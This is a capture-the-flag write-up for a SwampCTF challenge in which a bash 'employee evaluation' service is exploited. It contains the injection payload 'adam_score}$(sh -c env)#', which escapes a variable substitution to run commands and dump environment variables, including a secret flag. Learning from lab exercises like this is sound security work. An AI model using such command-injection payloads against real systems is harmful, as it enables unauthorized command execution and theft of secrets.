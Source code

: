 Connecting to the provided host gives us the following output:

```text
❯ nc chals.swampctf.com 60010  
/-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-\  
|                                       |  
|  SwampCo Employee Evaluation Script™  |  
|                                       |  
|  Using a new, robust, and blazingly   |  
|  fast BASH workflow, lookup of your   |  
|  best employee score is easier than   |  
|  ever--all from the safe comfort of   |  
|     a familiar shell environment      |  
|                                       |  
\-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-/  
  
To start, enter the employee's name...  
```

From the prompt we can assume it's running in a bash environment, I provided `| whoami` as initial output to see what it would spit out.

```text
| whoami  
/app/run: line 44: ${employee_| whoami_score}: bad substitution
```

It looks like our output is getting substituted inside of a variable using the syntax `${employee_[input]_score}`, we need to find a way to break out of that and get the flag output.

I went with the payload `adam_score}$(sh -c env)#`. `adam_score}` finished the line with a legit employee value, and `$(sh -c env)` should output the environment variables. The trailing `#` will comment out the rest of the line and ensure our command is run.

```text
❯ nc chals.swampctf.com 60010  
/-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-\  
|                                       |  
|  SwampCo Employee Evaluation Script™  |  
|                                       |  
|  Using a new, robust, and blazingly   |  
|  fast BASH workflow, lookup of your   |  
|  best employee score is easier than   |  
|  ever--all from the safe comfort of   |  
|     a familiar shell environment      |  
|                                       |  
\-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-/  
  
To start, enter the employee's name...  
adam_score}$(sh -c env)#  
Employee adam_score}$(sh -c env)# score: 84}employee_cole_score=57  
SHLVL=0  
employee_alex_score=00  
employee_daniel_score=48  
employee_ben_score=47  
employee_omar_score=74  
employee_john_score=19  
_=/usr/bin/sh  
employee_wilson_score=61  
____secret_never_reveal_pls_thx__=swampCTF{flag_redacted}  
employee_vic_score=81  
employee_scott_score=94  
employee_adam_score=84  
employee_jon_score=41  
employee_jack_score=80  
employee_james_score=16  
employee_ethan_score=56  
```